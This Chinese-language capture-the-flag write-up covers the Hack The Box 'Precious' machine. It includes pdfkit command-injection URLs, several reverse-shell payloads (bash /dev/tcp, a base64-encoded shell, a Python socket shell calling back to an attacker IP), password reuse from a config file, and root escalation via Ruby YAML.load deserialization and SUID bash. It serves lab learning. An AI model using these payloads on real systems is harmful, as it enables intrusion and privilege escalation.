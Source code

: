## 扫描
```bash
ports=$(nmap -n -Pn -sS  -p- <ip> --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
nmap -v -n -sC -sV -p ${ports} <ip> -oN Precious.nmap
```

只扫出22、80端口。


## 漏洞分析

22端口（openssh 8.4p1 debian 5+deb11u1 (protocol 2.0)）找了一下似乎无漏洞。

### 80端口
访问网页无显示，URL会跳转到 `precious.htb`，将其加入hosts文件后即可访问。

- 无robots  
- 网页源码无发现  
- 目录枚举无发现  
- 网页功能似乎是将网页转pdf  

#### 研究网页功能

尝试几个网址无特别反应，似乎一定要 `http://` 或 `https://` 开头，且一直报错说不能用remote URL。

*迷茫……看了眼Forum说既然不能用remote那可以试试local……*

尝试本地用python开启http服务，随便建立一个文本，回到网页输入自己的URL。  
会弹网页新标签显示刚刚文本的pdf。  
又试了下将文本改为html，里面插入js的 `alert(1)`。再次访问，弹出pdf顺便js也有反映。不过XSS不大熟，止步于此……

*看Forum的提示，似乎要下载pdf看看属性。*

下载pdf，属性里没找到啥。  
`strings` 命令看到 **pdfkit**，搜了下有[PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)。
        
尝试 `` http://<ip>/?name=#{'%20`sleep 5`'} ``。有效，5秒后会直接显示web根目录下的内容。  
*后来才发现下载完pdf后，get shell其实并不必一直用local URL。直接 `` http://example.com/?name=#{'%20`sleep 5`'} `` 也行。*


## foothold
- 尝试反弹shell（无效）  
```
http://<ip>/?name=#{'%20\`bash -i >& /dev/tcp/<ip>/<port> 0>&1`'} 
```

- 试一下base64（无效）  
``` 
http://<ip>/?name=#{'%20`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d`'} 
```  

- 套一层shell执行（无效）  
```
http://<ip>/?name=#{'%20`bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d"`'} 
```  

- python3可以  
```
http://<ip>/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`'} 
```

*不过后来回顾的时候，在本地试了一下无效的那几个：*  
*第一个报错：没有那个文件或目录: /dev/tcp/&lt;ip&gt;/&lt;port&gt;。*  
*第二、三个报错：>&: 没有那个文件或目录。*  
*而base64尝试这个可以： `` http://example.com/?name=#{'%20`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d|bash`'} `` (不知道为什么 `|sh` 不行)*

get shell后，`id` 是ruby账户。

### 升级为交互式shell
```bash
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```


## get user flag 
home目录有用户 `henry`，ruby家目录 `.bundle/config` 里有其密码。  
转到henry账号，其家目录有flag。


## 提权
### PoC
henry的 `sudo -l`，有root权限无密码执行 `/usr/bin/ruby /opt/update_dependencies.rb`  

`update_dependencies.rb` 文件里面有load文件（`YAML.load(File.read("dependencies.yml"))`），谷歌：ruby yaml.load file exploit  
找到[PoC文章](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)（最下面有github的payload）

复制 /opt/sample/dependencies.yml (到家目录)并将payload写入。  
```
sudo /usr/bin/ruby /opt/update_dependencies.rb
``` 
执行后有回显id命令的结果是root。


### 方法1：sudo反弹root shell
注入 `"bash -c 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1'"`  

- 只有 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1' 的话会有"bad fd"报错

### 方法2：给bash命令添加SUID
注入 `"chmod +s /bin/bash"`，然后执行 `bash -p` 即可获得附加了root的shell  

- *ref: https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup*

### 方法3：命令执行
后来想想，由于只是单纯拿flag

- 可以直接注入 `"bash"` 拿root shell
- 或者直接注入 `"cat /root/root.txt"` 拿flag


## get root falg
`cat /root/root.txt`

---

## 后记
2022/12/4  
其实算是第一次正经打HTB，以前稍微试了下还是觉得Web渗透知识不够的话有点难。  
主要是看这两天群友讨论Precious，然后也有大佬们给出提示，所以想着既然有提示那么我也想要尝试一下……  

想想这个靶机打了好几个小时，还是有点超出自己的实力范围了。不过回顾起来又觉得其实没那么难，很多知识都有接触过，还是实战经验太少了吧。  
围观群里讨论也学到了很多细节，比如get shell前应该先判断环境（如用 `which python python2 python3`）。自己这次就是乱试了几个偶然用python3反弹到了。  

不过[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)的命令执行似乎有限，有些命令并无/或者自己不知道哪里有回显（如 `id`）。后来搜wp时发现[另一个类似的注入方式](https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup)， `` http://10.10.XX.XX/?name=%20`id` `` 可在用local URL时在网页回显。也不知道为何明明看的是同一个[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)，为什么会想到把 `#{}` 删掉……
